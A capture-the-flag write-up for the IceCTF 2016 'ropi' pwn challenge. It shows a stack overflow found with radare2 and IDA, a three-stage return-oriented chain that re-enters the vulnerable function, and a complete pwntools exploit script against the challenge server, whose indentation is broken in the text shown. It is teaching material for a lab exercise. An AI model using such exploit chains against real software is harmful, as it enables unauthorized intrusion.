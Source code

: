 #Nullp0inter's ropi write up for IceCTF 2016

##Ropi Pwn 75pts
Ritorno orientata programmazione 
nc.ropi.vuln.icec.tf 6500

## Write Up
In this challange we are again given a download link for what we find out is a 32-bit ELF executeable binary. The challenge name and hint tell us we will probably be doing rop but beyond that or the specifics we don't really know yet. When we fire up the binary we get the following:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?

```

Uh oh, Italian. I don't speak that so I threw it into Google Translate and got the following translation:

```
Welcome to Pro Rectors conference!
Wants to leave a message?
```

So ok, its supposed to let me leave like a message. We get the gist. So now I tried entering just a bit of input to see normal execution:

```
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
Never gonna give you up
addio!
```

It just comes back and prints addio!. Ok, now what? Well lets see if we can crash it:
```zsh
python -c "print 'D'*100" | ./ropi 
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[1]    72553 done                              python -c "print 'D'*100" | 
       72554 segmentation fault (core dumped)  ./ropi
```

YISSS, a core dump, lets examine that in gdb:

```bash
Stopped reason: SIGSEGV
0x44444444 in ?? ()
```
Awesome! It looks like we overwrote EIP, now we can generate a string with `ragg2` to take the guesswork (or real reversing) out of figuring out the buffer size:
```bash
ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAA
```
Using the string ragg2 generated:
```bash
Stopped reason: SIGSEGV
0x41415041 in ?? ()
```
Translating that to an ASCII string we get 'AAPA'. There are two ways to do this now which are either copying the string right up to the first A and using something like len() in Python, but I'm going to use a builtin tool for radare2, `wopO <hex pattern>` which will basically search for how far off that pattern is in the string we generated:
```bash
r2 ropi
 -- This is amazing ...
 [0x08048430]> wopO 0x41415041
 43
```

43 bytes of padding, alright, we can work with that. Now would be a good time to see where we actually get input and how much we get. We can do this by objdump or by IDA. I'm still learning to reverse so for now I'll just use IDA. 

Disassembling with IDA we get the following functions:

#####main:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
      ezy();
        puts("addio!");
          return 0;
}
```

#####ezy:
```C
ssize_t ezy()
{
      char buf; // [sp+10h] [bp-28h]@1

        puts("Benvenuti al convegno RetOri Pro!\nVuole lasciare un messaggio?");
          fflush(stdout);
            return read(0, &buf, 0x40u);
}
```

#####ret:
```C
int __cdecl ret(int a1)
{
      if ( a1 != -1159991569 )
            {
                    puts("chiave sbagliata! :(");
                        exit(1);
                          }
        fd = open("./flag.txt", 0);
          puts("[+] aperto");
            return fflush(stdout);
}
```

#####ori:
```C
int __cdecl ori(int a1, int a2)
{
      if ( a1 != -1412567041 && a2 != 2018915346 )
            {
                    puts("chiave sbagliata! :((");
                        exit(1);
                          }
        read(fd, &dati, 0x80u);
          puts("[+] leggi");
            return fflush(stdout);
}
```

#####pro:
```C
int pro()
{
      puts("[+] stampare");
        printf("%s", &dati);
          return fflush(stdout);
}
```
Using the disassembled functions we can see a few things. Firstly, we gain our input through a call to read and are given a max of 64 bytes (from nbytes being 0x40, which in decimal is 64). We know that for whatever reason, 43 or so bytes in we start to overwrite the EIP. This means we have *roughly* 20 bytes left to play with. Secondly we can see there are three functions other than `main()` and `ezy()` and each appears to have some part of loading and displaying the flag and have to be done in order.

We now know that we have 44 bytes to EIP, 20 bytes to play with including EIP overwrite, 3 functions that must be called in the order `ret()`->`ori()`->`pro()` (return oriented programming), and that these functions all (save `pro()`) appear to have some sort of check at the beginning. Converting those ugly looking numbers to hex we get that `ret()` wants an argument to be `0xbadbeeef` (thats beef with three 'e's) and `ori()` wants two which are 0xabcdefff and 0x78563412. If we fail to provide those then the program prints a failure message and exits.

What now? Well reviewing how ret2libc attacks work, we know that if we can hijack EIP as we have done then we can make it return to wherever we want in the program and do even more so long as we set the stack frame right. So first instinct is to try to make it do `main()`->`ezy()`->`ret()`->`ori()`->`pro()` but we quickly find that there is a problem. Distance to EIP is 44 bytes which leaves us with 20 bytes to craft the exploit. The addresses alone for ret, ori, and pro will take up 12 which leaves us with 8 bytes left. We then need to account for the 4 byte 'canary' in ret, and the two 4 byte 'canaries' in ori. Adding that all up we end up 4 bytes over what we have. That's a problem. So now what? Get clever with the rop gadgets?

Well if you recall I said we could use the EIP access to return ANYWHERE, and as it turns out our vulnerability is in its own function too: `ezy()`! So what do we do about it? Well we know during the same execution we must visit `ret()`,`ori()`, and `pro()` all in order and we also now know we can jump back to `ezy()` which means.... ARBITRARY JUMPING! 

If we first go to `ret()` and have it return to `ezy()` rather than `ori()` it means that we can rewrite our exploit and do it again, effectively "chaining" it, so that we can then jump to `ori()` and back to `ezy()` one final time to make a final jump to `pro()`

We have three seperate payloads we then need to construct:

```
payload one:    'A'*44<address of ret><address of ezy><0xbadbeeef>
payload two:    'A'*44<address of ori><address of ezy><0xabcdefff><0x78563412>
payload three:  'A'*44<address of pro><address of main, or just junk>
```

Luckily for us, pwntools makes sending these multiple encoded payloads really easy, setting it up just like that we get the following exploit script in python:

```Python
#!/usr/bin/python

# @nullp0inter
# IceCTF ROPI

from pwn import *

# Addresses
main        = 0x08048661
ezy_addr    = 0x0804852d
ret_addr    = 0x08048569
ret_can     = 0xbadbeeef
ori_addr    = 0x080485c4
ori_can1    = 0xabcdefff
ori_can2    = 0x78563412
pro_addr    = 0x0804862c

# Payload Generation
payload      = 'A'*44
payload     += p32(ret_addr)
    payload     += p32(ezy_addr)
    payload     += p32(ret_can)
    payload2     = 'A'*44
    payload2    += p32(ori_addr)
    payload2    += p32(ezy_addr)
    payload2    += p32(ori_can1)
    payload2    += p32(ori_can2)
    payload3     = 'A'*44
    payload3    += p32(pro_addr)
    payload3    += p32(main)

# Start Pwnage
    p = remote('ropi.vuln.icec.tf',6500) # Remote
#p = process('ropi') # local

    p.recv()
    p.sendline(payload)
    p.recv()
    p.sendline(payload2)
    p.recv()
    p.sendline(payload3)
    p.interactive()
```


##Special Thanks:
Special thanks to members both past and present of my club, wcsc, for all the information they shared with me. I was able to finally solve some fairly difficult challenges thanks to them answering my repeated stupid questions (ropi at 131 solves, dear_diary at 78)

##Resources:
I found a ton of great resources during the challenge for learning about ROP attacks:

[Saumil Shah's 'Dive Into ROP'](http://www.slideshare.net/saumilshah/dive-into-rop-a-quick-introduction-to-return-oriented-programming "Dive Into ROP")

[Saumil Shah's 'How Functions Work'](http://www.slideshare.net/saumilshah/how-functions-work-7776073 "How Functions Work")

[Jeffrey Crowell's Blog Post on "Pwning With Radare2"](http://crowell.github.io/blog/2014/11/23/pwning-with-radare2/ "Pwning With R2")

